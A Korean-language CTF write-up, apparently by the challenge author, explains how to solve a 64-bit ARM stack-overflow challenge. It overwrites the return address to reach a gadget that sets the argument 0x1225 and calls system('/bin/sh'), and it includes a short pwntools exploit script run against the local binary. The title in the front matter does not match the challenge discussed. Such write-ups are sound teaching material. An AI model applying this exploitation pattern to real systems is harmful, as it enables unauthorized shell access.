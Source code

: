 ```yaml
---
title: "[Write-Up] Christmas CTF 2020 - Picky Eater"
author: L0ch
tags: [L0ch, ctf, write-up, christmas ctf]
categories: [Write-Up]
date: 2020-12-29 21:00:00
cc: true
index_img: 2020/12/29/l0ch/baby_rudolph/1.png
---
```

baby_RudOlPh는 baby 시리즈 답게 이번 Christmas CTF에서 가장 많은 솔버가 나왔던 문제 중 하나입니다.
![](baby_rudolph/1.png)

바이너리를 받고 보호기법과 아키텍쳐를 확인해보면 64bit ARM이고, NX bit만 걸려있는걸 확인할 수 있습니다.



![](baby_rudolph/2.png)
분석해보면 vuln이라는 함수를 대놓고 줍니다. read 함수를 호출하는데 0x100만큼 받아서 stack overwflow가 발생하네요



![](baby_rudolph/3.png)

`get_arm` 함수를 보면 첫 번째 인자의 값이 `0x1225` 면 `system("/bin/sh")`을 실행해 쉘을 획득할 수 있습니다.



![](baby_rudolph/4.png)







`ARMmaker` 함수에는 인자를 세팅 할 수 있는 gadget이 있네요.

1. `vuln` 의 return address를 `ARMmaker`의 gadget으로 overwrite
2. gadget을 통해 인자를 `0x1225`로 세팅하고 `get_arm` 호출
3. get shell!



# Exploit

```python
from pwn import *

p = process("./baby_RudOlPh")
context.log_level = "debug"
p.recvuntil("\\n")

payload = b"A"*72
payload += p64(0x400724)
payload += p64(0x1225) + b"A"*16
payload += p64(0x400738)

p.sendline(payload)
p.interactive()
```

![](baby_rudolph/5.png)



뉴비용 포너블 문제를 내려는데 그냥 내면 심심해서 64bit ARM으로 내봤습니다 ㅎㅎ 역시 많은 분들이 풀어주셨습니다! 

(문제 만드는 시간보다 도커에 세팅하는데 드는 시간이 더 오래 걸렸던 건 비밀..)